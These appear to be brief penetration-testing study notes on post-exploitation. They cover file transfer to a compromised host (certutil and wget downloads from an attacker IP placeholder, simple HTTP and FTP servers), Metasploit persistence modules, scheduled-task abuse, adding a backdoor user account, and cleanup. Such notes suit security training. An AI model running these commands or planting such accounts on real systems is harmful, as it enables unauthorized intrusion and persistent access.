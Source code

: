 # Post Exploitation Basics

## File Transfer Review

### Tools

#### certutil

```bash
certutil.exe --urlcache -f http://<IP>/file.txt file.txt
```

#### PowerShell

```powershell
```

#### HTTP

```bash
python -m SimpleHTTPServer 80
updog -p 80
```

#### Browser

Navigate directly to file

#### FTP

```bash
python -m pyftpdlib 21  # attacker machine
ftp <attacker IP>
```

#### Linux

```bash
wget <URL>
```

## Maintaining Access Overview

### Persistence Scripts

* Run `persistence -h`
* `exploit/windows/local/persistence`
* `exploit/windows/local/registry_persistence`

### Scheduled Tasks

* Run `scheduleme`
* Run `schtaskabuse`

### Add a User

* `net user hacker password123 /add`

## Pivoting

## Cleanup

* Make the system/network as it was when you entered it
  * Remove executables, scripts, and added files
  * Remove malware, rootkits, and added user accounts
  * Set settings back to original configurations
